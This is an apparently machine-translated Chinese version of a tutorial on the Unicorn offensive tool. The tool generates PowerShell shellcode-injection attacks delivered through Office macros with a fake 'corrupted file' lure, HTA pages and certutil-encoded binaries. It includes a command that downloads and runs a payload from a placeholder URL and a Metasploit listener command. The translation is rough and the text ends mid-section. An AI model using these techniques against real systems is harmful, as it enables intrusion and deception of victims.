 # 独角兽–降级攻击&将外壳代码直接注入内存

> 原文：<https://kalilinuxtutorials.com/unicorn-attack-inject-shellcode/>

独角兽是利用 PowerShell 降级攻击并将外壳代码直接注入内存的简单工具。基于 Matthew Graeber 的 PowerShell 攻击和 David Kennedy (TrustedSec)和乔什·凯利在 Defcon 18 上展示的 PowerShell 旁路技术。

用法很简单，只需运行 magic unicorn(如果使用 Metasploit 方法，请确保 Metasploit 安装在正确的路径中), Magic Unicorn 将自动生成一个 Powershell 命令，您只需将 PowerShell 代码剪切并粘贴到命令行窗口或通过有效负载交付系统即可。Unicorn 支持您自己的外壳代码、钴击和 Metasploit。

**也读作 [洋葱 nmap 扫描隐藏洋葱服务](https://kalilinuxtutorials.com/onion-nmap-scan-hidden-services/)**

## **POWERSHELL 攻击指令**

现在，所有内容都生成在两个文件中，powershell_attack.txt 和 unicorn.rc。该文本文件包含将 powershell 攻击注入内存所需的所有代码。注意，您需要一个支持某种远程命令注入的地方。这通常可以通过 excel/word 文档或 Metasploit、SQLi 等内部的 psexec_commands 来实现..

对于您可以在何处使用这种攻击，有许多暗示和场景。只需将 powershell_attack.txt 命令粘贴到任何命令提示符窗口或您能够调用 powershell 可执行文件的地方，它就会返回一个 shell。此攻击还支持负载方法的 windows/download_exec，而不仅仅是 Meterpreter 负载。使用下载和执行时，只需将 python unicorn . py windows/download _ exec URL =[https://www.thisisnotarealsite.com/payload.exe](https://www.thisisnotarealsite.com/payload.exe)，PowerShell 代码就会下载有效载荷并执行。

**注意:**为了捕获攻击，您需要启用一个监听器。

## **宏攻击指令**

对于宏攻击，您需要转到文件、属性、功能区，然后选择开发人员。一旦你这样做了，你将有一个开发者标签。创建一个新宏，将其命名为 Auto_Open，并将生成的代码粘贴到其中。这将自动运行。

请注意，会有一条消息提示用户文件已损坏，并自动关闭 excel 文档。这是正常行为！这是欺骗受害者认为 excel 文档已损坏。之后你应该会通过 PowerShell 注入得到一个 shell。

如果您针对 Word 的 Office365/2016+版本部署此功能，您需要修改 Sub Auto_Open()输出的第一行

To: Sub 自动打开()

宏本身的名称也必须是“AutoOpen ”,而不是传统的“Auto_Open”命名方案。

**注意:**在复制和粘贴 excel 时，如果添加了额外的空格，您需要在变量“x”下的每个 PowerShell 代码段后删除这些空格，否则将会出现语法错误！

## **HTA 的攻击指令**

HTA 攻击将自动生成两个文件，第一个是**index.html**，它告诉浏览器使用包含恶意 PowerShell 注入代码的 Launcher.hta。所有文件都被导出到 **hta_access/** 文件夹，将会有三个主文件。第一个是 index.html 的**，第二个是 Launcher.hta，最后一个是 unicorn.rc 文件。您可以运行 **msfconsole -r unicorn.rc** 来启动 Metasploit 的监听器。**

 **用户在使用 HTA 攻击时必须单击“允许并接受”, PowerShell 注入才能正常工作。

## **CERUTIL 攻击指令**

Matthew Graeber 发现了 certutil 攻击媒介，它允许您获取一个二进制文件，将其转换为 base64 格式，并在受害者机器上使用 certutil 将其转换回二进制文件。这几乎可以在任何系统上运行，并允许您通过伪造的证书文件将二进制文件传输到受害机器上。要使用这种攻击，只需在 unicorn 的路径中放置一个可执行文件，并运行 python**unicorn . py<exe _ name>CRT**以获得 base64 输出。完成后，进入包含文件的 **decode_attack/** 文件夹。bat 文件是一个可以在 windows 机器上运行的命令，用于将其转换回二进制文件。

## **自定义 PS1 攻击指令**
